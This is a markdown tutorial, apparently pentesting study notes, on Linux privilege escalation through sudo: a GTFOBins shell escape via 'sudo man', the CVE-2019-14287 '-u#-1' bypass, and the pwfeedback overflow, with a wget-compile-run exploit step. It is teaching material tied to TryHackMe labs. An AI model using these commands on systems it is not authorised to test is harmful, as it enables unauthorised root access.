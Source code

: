 # Linux Privilege Escalation: SUDO Privileges

## Contents
- [What are we looking for?](#what-are-we-looking-for)
- [Standard Local Enumeration](#standard-local-enumeration)
  - [`sudo -l`](#sudo--l)
  - [Results](#results)
  - [The Vulnerability](#the-vulnerability)
- [The Hack: `sudo man [command]`](#the-hack-sudo-man-command)
- [Security Bypass - CVE-2019-14287](#security-bypass---cve-2019-14287)
- [pwfeedback - CVE-2019-18634](#pwfeedback---cve-2019-18634)

## What are we looking for?
- We are looking for poorly configured binaries (executables) on the compromised Linux system.
  - We can use these binaries to elevate our privileges
- Many binaries in Linux can be used to execute specific commands.
  - If a binary has sudo privileges attached (without a password), you may be able to use that binary to spawn a shell (thus gaining root privs). 

## Standard Local Enumeration

### `sudo -l`
```
cat /etc/passwd     #find out what other users are configured on the system
sudo -l
```
-  `-l` (lowercase "L" for list) list out the sudo commands the current user can run.
-  [From the man page](https://linux.die.net/man/8/sudo): The `-l` (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

### Results
- Assume we found a binary we can run with sudo privileges: `/sur/bin/man`
- And the "NOPASSWD" option has been set
- So we can run that command as root without any password or authentication
- This is a misconfiguration we can exploit (see below).
- Use [GTFOBins](https://gtfobins.github.io/) to look up how to compromise the binary file you and use with sudo.

### The Vulnerability
- The `man` utility (to display "man pages") allows you to spawn a Bash shell via the utility itself.
- The normal way you'd open a man page is `man [command]`.
  - This will open the man page with the current user's privileges.
- But if you can run `/usr/bin/man` with root privs using `sudo` (because it's set with "NOPASSWD"), then you can open a shell as root.
  - Preface the `man` comand with `sudo`. That runs the command with root privileges: `sudo man [command]`
  - And since the system is configured to run `/usr/bin/man` via sudo without a password, you are not prompted for any authentication. 

## [The Hack](https://gtfobins.github.io/gtfobins/man/#sudo): `sudo man [command]`
- Open a man page (any man page) with sudo: `sudo man [command]` 
- It parses out the contents of the man page with "more"
- While the man page is displayed, you can enter commands with the "!"
  - Example:  `!/bin/bash`
  - This is a function of more not of man.
  - [From the more man page](https://man7.org/linux/man-pages/man1/more.1.html): `!command` or `:!command` : Execute command in a subshell.
  - `less` works the same way.
- This results in a Bash session as root (the owner of the man process from which the shell was spawned).

## [Security Bypass](https://www.exploit-db.com/exploits/47502) - CVE-2019-14287
> If you have sudo < 1.8.28 this should work.

1. Check for the user sudo permissions
- You can either run a `sudo -l` or `cat` out the **/etc/sudoers/** file.
- You are looking for this configuration: 
```
# from sudo -l: 
User hacker may run the following commands on kali:
  (ALL, !root) /bin/bash

# or in /etc/sudoers:
hacker ALL=(ALL,!root) /bin/bash
```

2. Exploit: 
- Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo privilege.
- `-u#-1` returns as 0 which is root's id
- And then /bin/bash is executed with root permission:
```
sudo -u#-1 /bin/bash
```

3. [TryHackMe Walk-Through](https://tryhackme.com/r/room/sudovulnsbypass)

## [pwfeedback](https://www.exploit-db.com/exploits/47995) - CVE-2019-18634
> If you have sudo < 1.8.26 this should work.

If pwfeedback is enabled in sudoers, you may be able to escalate privileges through buffer overflow.
- Sudo's pwfeedback option can be used to provide visual feedback when the user is inputting their password.
- For each key press, an asterisk is printed. This option was added in response to user confusion over how the standard Password: prompt disables the echoing of key presses.
- While pwfeedback is not enabled by default in the upstream version of sudo, some systems, such as Linux Mint and Elementary OS, do enable it in their default sudoers files.
- Due to a bug, when the pwfeedback option is enabled in the sudoers file, a user may be able to trigger a stack-based buffer overflow.
- This bug can be triggered even by users not listed in the sudoers file.
- There is no impact unless pwfeedback has been enabled.

1. Check for the configuration: pwfeedback
- Exploiting the bug does not require sudo permissions, merely that pwfeedback be enabled.
- You can try a `sudo -l` or `cat /etc/sudoers` but if you cannot access sudo because of perms, just run sudo command (any command; e.g., `sudo su root`).
- If you get an asterisk everytime you type a letter in for the password, pwfeedback is enabled.
- If sudo is < 1.8.26, then the hack should work.
```
sudo -l
# If the results include pwfeedback, like below, sudo is vulnerable.
Matching Defaults entries for millert on linux-build:
insults, pwfeedback, mail_badpass, mailerpath=/usr/sbin/sendmail

User millert may run the following commands on linux-build:
(ALL : ALL) ALL
```

2. You can check to see if the vulnerability can be exploited with:
```
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
```
- If that returns `Password: Segmentation fault`, it is exploitable.
- This perl command does not actually exploit the vulnerability.
  - We use Perl to generate a lot of information which we're then passing into the sudo command as a password using the pipe (|) operator.
  - This doesn't actually give us root permissions -- instead it shows us an error message: Segmentation fault, which basically means that we've tried to access some memory that we weren't supposed to be able to access.
  - This proves that a buffer overflow vulnerability exists, but it doesn't exploit it. 

3. Exploit:
- [Actual Exploit](https://github.com/saleemrashid/sudo-cve-2019-18634) | [TryHackMe Write-Up](https://tryhackme.com/r/room/sudovulnsbof)

```
#Download the C code onto your target machine (because you have to compile on the target machine).
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/refs/heads/master/exploit.c

# Compile that file on the target machine: 
gcc -o exploit exploit.c 

# Execute it:
./exploit
```
